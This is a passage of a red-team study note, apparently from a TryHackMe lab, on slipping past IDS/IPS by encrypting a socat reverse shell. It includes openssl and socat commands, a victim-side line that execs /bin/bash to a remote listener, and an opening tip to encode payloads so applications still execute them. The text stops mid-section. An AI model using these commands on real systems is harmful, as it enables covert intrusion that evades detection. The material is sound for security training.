 Encode this using base64, url encoding, and using escaped unicode, as some application will still process your input and execute it properly.

![Network Security Solutions-1.png](/img/user/cards/red-team/images/Network%20Security%20Solutions-1.png)
### Encrypt the Communication Channel
---
Since IDS/IPS can't or won't inspect encrypted data (depends on the features of the IDS/IPS software used) this can be taken advantage to evade detection.

Creating an encrypted communication channel using `socat`:

**1. Create the key**

The most important detail is the `thm-reverse.key` (Private key) and `thm-reverse.crt` (Certificate)

```C
openssl req -x509 -newkey rsa:4096 -days 365 -subj '/CN=www.redteam.thm/O=Red Team THM/C=UK' -nodes -keyout thm-reverse.key -out thm-reverse.crt
```

Learn more about [[cards/dots/Public Key Infrastructure (PKI)\|Public Key Infrastructure (PKI)]].

The _Privacy Enhanced Mail (PEM)_ files requires the concatenation of the private key and the certificate files.

```C
cat thm-reverse.key thm-reverse.crt > thm-reverse.pem
```

A **PEM file** is just a text file that stores cryptographic data like certificates, private keys, or both, using **Base64 encoding with header/footer lines**, this file is what many servers/tools expect.

**2. Start listening while using the key for encrypting the communication with the client**

```C
socat -d -d OPENSSL-LISTEN:4443,cert=thm-reverse.pem,verify=0,fork STDOUT
```

- `-d -d` provides some debugging data (fatal, error, warning, and notice messages)
- `OPENSSL-LISTEN:PORT_NUM` indicates that the connection will be encrypted using OPENSSL
- `cert=PEM_FILE` provides the PEM file (certificate and private key) to establish the encrypted connection
- `verify=0` disables checking peer’s certificate
- `fork` creates a sub-process to handle each new connection.

**3. Attempt connection the server in the victim machine**

```C
socat OPENSSL:10.20.30.1:4443,verify=0 EXEC:/bin/bash
```

This is the view when displaying the contents of `/etc/passwd` while in encrypted in Wireshark:

![Network Security Solutions-2.png|550](/img/user/cards/red-team/images/Network%20Security%20Solutions-2.png)

Without encryption:
